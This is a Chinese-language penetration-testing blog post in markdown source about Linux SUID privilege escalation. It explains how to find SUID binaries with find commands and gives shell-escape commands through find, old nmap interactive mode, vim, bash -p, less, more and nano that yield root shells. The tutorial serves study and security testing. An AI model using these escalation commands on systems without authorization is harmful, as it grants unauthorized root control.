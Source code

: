 ```yaml
---
title: Linux渗透 SUID提权
description: Linux渗透 SUID提权
pubDate: 11 11 2024
image: https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-12.png
categories:
  - 网络安全
tags:
  - 提权
  - Linux
---
```


## SUID

> SUID（Set User ID）是Linux和Unix系统中一种文件权限位，允许用户在执行文件时以文件所有者的身份运行该程序，而不是执行者的身份。通常，这在需要特定权限的程序中使用，例如需要以 root 权限执行的程序，方便非 root 用户运行而无需直接授予他们 root 权限。

SUID 的特点是用户运行某个程序时，如果该程序有 SUID 权限，程序运行进程的属主不是发起者，而是程序文件所属的属主。

比如普通用户张三想要运行一个程序，而这个程序需要有李四的权限，那么就可以为这个程序设置 SUID，当张三运行这个程序的时候就会拥有李四的权限，从而去运行这个程序。而如果，这里李四是 root 用户，那么张三在运行这个程序时，就是以 root 用户权限去运行的。

我们可以利用这个特性去进行提权

## 设置 SUID

通过如下命令进行设置

```shell
chmod u+s filename 设置SUID位
chmod u-s filename 去掉SUID设置
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-1.png)

可以看到，在设置 SUID 后，权限中 x 的位置变成了 S

## SUID 利用

当前权限如下

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-2.png)

### SUID 文件收集

首先是要去收集存在 SUID 的文件

```shell
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

- 命令一： `find / -perm -u=s -type f 2>/dev/null`
  - 解释：在根目录 `/` 下递归查找所有具有 SUID 权限的文件。
  - 参数说明：
    - `-perm -u=s`：表示查找设置了 SUID 位的文件（以拥有者身份执行）。
    - `-type f`：只查找文件（不包括目录、链接等其他类型）。
    - `2>/dev/null`：将错误输出重定向到 `/dev/null`，隐藏因为权限不足导致的错误消息。
  - 目的：查找系统中所有具有 SUID 权限的文件，以检查可能存在的提权漏洞。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-3.png)

- 命令二： `find / -user root -perm -4000 -print 2>/dev/null`
  - 解释：在根目录下查找所有具有 SUID 权限且文件拥有者是 `root` 的文件。
  - 参数说明：
    - `-user root`：限定文件拥有者为 `root` 用户。
    - `-perm -4000`：查找具有 `4000` 权限的文件，即 SUID 位被设置的文件。
    - `-print`：输出找到的文件路径。
    - `2>/dev/null`：将错误信息重定向到 `/dev/null`，隐藏错误消息。
  - 目的：查找系统中以 `root` 身份执行的 SUID 文件，这些文件如果存在安全漏洞，可能被用于提权到 `root`。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-4.png)

- 命令三： `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`
  - 解释：在根目录下查找所有具有 SUID 权限且拥有者是 `root` 的文件，并详细列出这些文件的权限和信息。
  - 参数说明：
    - `-user root`：限定文件拥有者为 `root` 用户。
    - `-perm -4000`：查找具有 `4000` 权限的文件，即 SUID 位被设置的文件。
    - `-exec ls -ldb {}`：对找到的每个文件执行 `ls -ldb` 命令，详细列出文件的权限、所有者等信息。
    - `{}`：表示找到的文件路径会插入到 `{}` 中。
  - 目的：不仅查找 SUID 文件，还通过 `ls -ldb` 详细列出文件权限、所有者等信息，有助于进一步分析这些文件的潜在风险。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-5.png)

### find 提权

如果 find 拥有 SUID 权限的话，我们可以利用它进行提权

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-6.png)

find 命令需要指向一个文本文件，就以 `/etc/passwd` 为例

```shell
find /etc/passwd -exec whoami \;
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-7.png)

成功以 root 权限去执行了 `whoami`。我们可以用这种方式去执行各种命令

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-8.png)

### nmap 提权

在早期 nmap 版本中，带有交互模式，因而允许用户执行shell命令。

适用版本：nmap 2.02 至 5.21

使用如下命令进入nmap交互模式:

```css
nmap --interactive
```

在nmap交互模式中 通过如下命令提权

```shell
nmap> !sh
sh-3.2# whoami
root
```

### Vim 提权

要先打开一个文件

```
vim /etc/passwd
```

然后进入 vim 命令模式，通过vim进入shell

```shell
:set shell = '/usr/bin/sh'
:shell
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-9.png)

### Bash 提权

以下命令将以 root 身份打开一个 bash shell。

```bash
bash -p
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-10.png)

### less 提权

less 命令也可以进入 Shell

```bash
less /etc/passwd
```

在 less 中输入：`!/bin/sh`

注意：要读取一个比较大的文件，如果文件太小无法进入翻页功能也就无法使用 `!` 命令进入 shell

### more 提权

more命令进入 shell 和 less 相同

```bash
more /etc/passwd
#在more中输入:
!/bin/sh
```

注意：要读取一个比较大的文件，如果文件太小无法进入翻页功能也就无法使用 `!` 命令进入 shell

### nano 提权

nano 进入 shell 的方法为

```
nano #进入nano编辑器
Ctrl + R
Ctrl + X
#即可输入命令
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-11.png)

## 总结

其实就是用属主为 root 用户，拥有 SUID 的可执行文件去执行命令，除了上面说的那些，什么 python，perl，man 等等工具脚本，

只要是满足下面的条件都可以去利用

- 有 SUID，
- 属主是对应权限用户
- 是可执行文件
- 可以通过不同的方式去执行命令
